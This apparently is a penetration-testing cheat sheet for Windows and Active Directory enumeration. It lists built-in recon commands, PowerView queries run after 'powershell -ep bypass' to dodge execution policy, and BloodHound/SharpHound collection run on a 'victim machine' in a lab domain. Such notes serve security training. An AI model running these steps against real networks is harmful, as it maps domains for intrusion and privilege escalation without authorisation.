 **Initial enumeration**
SNMP community string
hostnames
domain name
System
network
passwords
AV

**AD Enumeration**
Users & Admins
SPN
GPO
AD ACLs
Domain Trust

**Basics**
systeminfo
hostname
whoami
echo %username%

**users / localgroups**
net users
net localgroups

**More info about a specific user. Check if user has privileges**
net user user1

**View Domain Groups**
net group /domain

**View Members of Domain Group**
net group /domain <Group Name>

**Firewall**
netsh firewall show state
netsh firewall show config

**Network**
ipconfig /all
route print
arp -A

**How well patched is the system**
wmic qfe get Caption,Description,HotFixID,InstalledOn
	
	
# PowerView

**download wget**
http://gnuwin32.sourceforge.net/packages/wget.htm

download powerview
wget https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

Open CMD bypassing execution policy
powershell -ep bypass

luanch PV
. .\powerview.ps1

Enumeration commands 
Get-NetDomain
Get-NetDomainController
Get-DomainPolicy
(Get-DomainPolicy)."system access"
Get-NetUser
Get-NetUser | select cn
Get-NetUser | select samaccountname
Get-NetUser | select description
Get-UserProperty
Get-UserProperty -Properties pwdlastset
Get-UserProperty -Properties logoncount
Get-UserProperty -Properties badpwdcount
Get-NetComputer -FullData
Get-NetComputer -FullData | select OperatingSystem
Get-NetGroup
Get-NetGroup -GroupName "Domain Admins"
Get-NetGroup -GroupName *admin*
Get-NetGroupMember -GroupName "Domain Admins"
Invoke-ShareFinder
Get-NetGPO
Get-NetGPO | select displayname, whenchanged


# Bloodhound

**Attacker machine**
apt install bloodhound
neo4j console


**Victim machine**
powershell .ep bypass

. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Domain MARVEL.local -ZipFileName file.zip